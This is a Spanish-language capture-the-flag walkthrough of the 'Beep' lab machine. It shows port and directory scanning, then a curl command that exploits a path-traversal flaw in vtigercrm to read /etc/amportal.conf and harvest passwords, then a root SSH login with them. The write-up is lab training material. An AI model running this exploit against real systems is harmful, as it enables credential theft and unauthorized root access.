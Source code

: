 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Beep               |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.10.7         |

Esta maquina la realizare al estilo del curso Hacking to the OSCP

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Beep/scan1.png)

### [](#header-3)NMAP   

```s
sudo nmap -vvv -Pn -sCV --reason -T4 -p0-65535 oN beep.nmap 10.10.10.7
```

![nmap1](/assets/images/Beep/nmap1.png)

![nmap2](/assets/images/Beep/nmap2.png)

```s
whatweb http://10.10.10.7
```

![whatweb](/assets/images/Beep/whatweb.png)

```s
sudo dirsearch --url=https://10.10.10.7 --wordlist=/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --threads 200 --random-agent
```

Con searchsploit encontramos una vulnerabilidad de LFI, en el cual podremos listar informacion del servidor mediante la url de la siguiente manera:

```s
curl -sk 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' | grep -i pass | cut -d  = -f 2 | grep -v ^# | grep -v \( | uniq >> ../content/creds.txt
```

Ahora que tenemos las credenciales, podemos intentar conectarnos por ssh con

```s
ssh -oHostKeyAlgorithms=+ssh-dss root@10.10.10.7
```

Y en el archivo ~/.ssh/config agregar:

```s
Host 10.10.10.7
	KexAlgorithms +diffie-hellman-group1-sha1
```

Y directamente hemos accedido como root.

![root](/assets/images/Beep/root.png)

![powned](/assets/images/Beep/powned.png)